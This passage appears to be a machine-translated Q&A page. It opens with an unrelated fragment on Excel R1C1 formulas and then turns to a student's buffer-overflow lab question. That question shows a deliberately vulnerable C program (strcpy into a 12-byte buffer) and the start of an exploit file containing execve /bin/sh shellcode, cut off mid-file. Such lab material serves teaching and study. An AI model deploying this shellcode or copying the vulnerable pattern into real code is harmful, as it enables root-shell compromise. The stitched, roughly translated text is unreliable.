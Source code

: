 如果您在 cell 中，会使事情复杂化`C5`，例如使用`Range("C5").FormulaR1C1 =`和编码以下内容：

1.  `"=RC[-1]"`参考单元格`B5`
2.  `"=RC1"`引用单元格`A5`，更正确`$A5`
3.  `"=R[1]C[-2]"`参考单元格`A6`
4.  `"=Sum(C[-1]:C5)"`更`=Sum(B:E)`正确的是`=Sum(B:$E)`

# c - 缓冲区溢出漏洞实验室问题

> ID：14916004
> 
> 赞同：1
> 
> 时间：2013-02-16T22:51:28.247
> 
> 标签：c, security, buffer-overflow, fortify-source

我有一个实验室任务，我被困住了。基本上，我必须利用缓冲区溢出来生成具有 root 权限的 shell。我必须使用 2 个单独的 .c 文件。这是第一个：stack.c

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bof(char *str)
{
    char buffer[12];

    //BO Vulnerability
    strcpy(buffer,str);

    return 1;
}

int main(int argc, char* argv[])
{
    char str[517];

    FILE *badfile;
    badfile = fopen("badfile","r");

    fread(str, sizeof(char),517, badfile);
    bof(str);

    printf("Returned Properly\n");
    return 1;
} 
```

这是第二个：exploit.c

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
"\x31\xc0"              /* xorl    %eax,%eax              */
"\x50"                  /* pushl   %eax                   */
"\x68""//sh"            /* pushl   $0x68732f2f            */
"\x68""/bin"            /* pushl   $0x6e69622f            */
"\x89\xe3"              /* movl    %esp,%ebx              */
"\x50"                  /* pushl   %eax                   */
"\x53"                  /* pushl   %ebx                   */
"\x89\xe1"              /* movl    %esp,%ecx              */
"\x99"                  /* cdql                           */
"\xb0\x0b"              /* movb    $0x0b,%al              */    
"\xcd\x80"              /* int     $0x80                  */
```